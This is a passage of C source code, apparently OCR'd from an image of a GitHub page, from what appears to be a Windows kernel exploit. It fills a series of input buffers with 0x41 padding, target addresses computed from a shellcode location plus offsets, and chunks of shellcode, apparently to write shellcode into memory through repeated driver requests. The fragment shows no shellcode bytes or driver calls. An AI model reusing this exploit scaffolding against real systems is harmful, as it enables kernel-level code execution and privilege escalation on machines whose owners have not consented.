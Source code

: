 ```c
        unsigned long long three9 = 0x0000000000000000;
        unsigned long long four9 = shellcode7;

        unsigned long long one10 = 0x4141414141414141;
        unsigned long long two10 = shellcodeLocation + 0x38;
        unsigned long long three10 = 0x0000000000000000;
        unsigned long long four10 = shellcode8;

        unsigned long long one11 = 0x4141414141414141;
        unsigned long long two11 = shellcodeLocation + 0x40;
        unsigned long long three11 = 0x0000000000000000;
        unsigned long long four11 = shellcode9;

        inBuf3[0] = one3;
        inBuf3[1] = two3;
        inBuf3[2] = three3;
        inBuf3[3] = four3;

        inBuf4[0] = one4;
        inBuf4[1] = two4;
        inBuf4[2] = three4;
        inBuf4[3] = four4;

        inBuf5[0] = one5;
        inBuf5[1] = two5;
        inBuf5[2] = three5;
        inBuf5[3] = four5;

        inBuf6[0] = one6;
        inBuf6[1] = two6;
        inBuf6[2] = three6;
        inBuf6[3] = four6;

        inBuf7[0] = one7;
        inBuf7[1] = two7;
        inBuf7[2] = three7;
        inBuf7[3] = four7;

        inBuf8[0] = one8;
        inBuf8[1] = two8;
        inBuf8[2] = three8;
        inBuf8[3] = four8;

        inBuf9[0] = one9;
        inBuf9[1] = two9;
        inBuf9[2] = three9;
        inBuf9[3] = four9;

        inBuf10[0] = one10;
        inBuf10[1] = two10;
        inBuf10[2] = three10;
        inBuf10[3] = four10;

        inBuf11[0] = one11;
        inBuf11[1] = two11;
        inBuf11[2] = three11;
        inBuf11[3] = four11;

        DWORD bytesReturned3 = 0;
        DWORD bytesReturned4 = 0;
        DWORD bytesReturned5 = 0;
        DWORD bytesReturned6 = 0;
        DWORD bytesReturned7 = 0;
```